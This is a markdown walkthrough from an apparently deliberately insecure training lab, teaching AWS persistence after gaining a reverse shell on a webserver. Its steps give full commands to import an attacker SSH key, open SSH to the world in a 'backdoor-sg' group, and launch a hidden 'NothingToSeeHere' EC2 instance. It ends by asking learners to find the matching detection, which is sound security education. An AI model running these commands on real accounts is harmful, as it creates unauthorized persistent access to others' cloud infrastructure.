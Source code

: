 # 🔥 Vulnerable Labs: Persistence Pays Off!
*A deliberately insecure application for security education and demos*

---

## 💀 About the Challenge

In this exercise you'll learn how to leverage excessive permissions and misconfigurations to gain persistence in a cloud environment.

Mitre ATT&CK defines persistence as techniques to allow adversaries to maintain their access to systems and devices across restarts and other interruptions. 


### 🎯 Your Mission

1. On your laptop, open a terminal and run the following command to generate a new SSH keypair:
```bash
ssh-keygen -t rsa -f attacker_key
```
2. Update the permissions on the generated keys 
```bash
chmod 0600 attacker_key*
```
3. Run the following command to obtain the attacker_key public key. Note it down as you'll need this shortly.
```bash
cat attacker_key.pub
```
4. Ensure your reverse shell to the webserver is still active. You can re-run the reverse shell commands from [2-Reverse-Shell.md](2-Reverse-Shell.md) if needed.
5. Run the following commands to install the AWS CLI (note we're using the tmp directory which is writeable):
```bash
curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "/tmp/awscliv2.zip" && unzip /tmp/awscliv2.zip -d /tmp/aws && cd /tmp/aws && ./aws/install --install-dir /tmp/aws-cli --bin-dir /tmp/aws-cli-bin && /tmp/aws-cli-bin/aws sts get-caller-identity
```
6. Run the following command to create a file containing your attacker public key
```bash
echo "{attacker_key.pub}" > /tmp/attacker_key.pub
```
7. Run the following command to import your SSH Public Key
```bash
/tmp/aws-cli-bin/aws ec2 import-key-pair --key-name attacker_key --public-key-material fileb:///tmp/attacker_key.pub
```
8. Run the following command to create a security group
```bash
/tmp/aws-cli-bin/aws ec2 create-security-group \
--group-name backdoor-sg \
--description "SSH access for attacker" \
--vpc-id $(/tmp/aws-cli-bin/aws ec2 describe-vpcs --query "Vpcs[0].VpcId" --output text)
```
9. Run the following command to create a security group rule:
```bash
/tmp/aws-cli-bin/aws ec2 authorize-security-group-ingress \
--group-id $(/tmp/aws-cli-bin/aws ec2 describe-security-groups --filters "Name=group-name,Values=backdoor-sg" --query "SecurityGroups[0].GroupId" --output text) \
--protocol tcp \
--port 22 \
--cidr 0.0.0.0/0
```
10. Run the following command to launch a new shadow EC2 instance:
```bash
/tmp/aws-cli-bin/aws ec2 run-instances \
--instance-type t2.micro \
--image-id ami-0aa2b7722dc1b5612 \
--subnet-id $(/tmp/aws-cli-bin/aws ec2 describe-subnets --query "Subnets[?MapPublicIpOnLaunch].SubnetId | [0]" --output text) \
--tag-specifications 'ResourceType=instance,Tags=[{Key=Name,Value=NothingToSeeHere}]' \
--security-group-ids $(/tmp/aws-cli-bin/aws ec2 describe-security-groups --filters Name=group-name,Values=backdoor-sg --query "SecurityGroups[0].GroupId" --output text) \
--key-name attacker_key \
--associate-public-ip-address
```
11. Run the following command to get the Public IP address of the newly created EC2 instance (you may need to wait for ~2 minutes for the instance to become running):
```bash
/tmp/aws-cli-bin/aws ec2 describe-instances \
  --filters "Name=tag:Name,Values=NothingToSeeHere" \
           "Name=instance-state-name,Values=running" \
  --query "Reservations[0].Instances[0].PublicIpAddress" \
  --output text

```
12. From your laptop (where you created your attacker_key) SSH to the newly created EC2 instance:
```bash
ssh -i attacker_key ubuntu@ip_address
```


Congratulations, you've completed this challenge. Can you now find the corresponding detection in Wiz? How long did it take to appear in the console?

### 💥 Hints & Tips

